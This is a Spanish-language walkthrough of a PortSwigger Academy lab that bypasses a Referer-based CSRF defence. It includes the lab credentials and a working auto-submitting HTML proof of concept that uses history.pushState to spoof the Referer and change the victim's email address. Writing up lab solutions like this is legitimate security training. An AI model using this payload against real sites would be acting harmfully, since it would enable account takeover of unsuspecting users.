 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta detectar y bloquear solicitudes entre dominios, pero el mecanismo de detección puede eludirse. Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

iniciamos sesión en el laboratorio interceptamos la solicitud de cambio de contraseña y la enviamos al repeater 
![[Pasted image 20250722123446.png]]

en este caso lo primero que hacemos es validar cual es la porción del referer que se esta validando. hasta que encontramos una respuesta `400 Bad Request` esto nos indica que la solicitud ya no se esta validando correctamente por lo que podemos identificar hasta donde llega la validación del referer.
![[Pasted image 20250722123602.png]]

creamos nuestro CSRF-POC y podemos usar el parámetro `history.pushState('', '', '/');` el primer valor hace referencia al estatus el segundo valor es el titulo y el tercero es la URL. en este caso nos interesa el de la url. 

`NOTA:` la URL puede ser relativa o absoluta. pero debe provenir desde el origen principal. en este caso usamos la url relativa ya que proviene de dicho origen.

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a60003404692c1a810ac58f00300054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a60003404692c1a810ac58f00300054.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

inyectando la URL relativa en el tercer valor del parámetro `history.pushState` 
![[Pasted image 20250722125434.png]]


![[Pasted image 20250722130031.png]]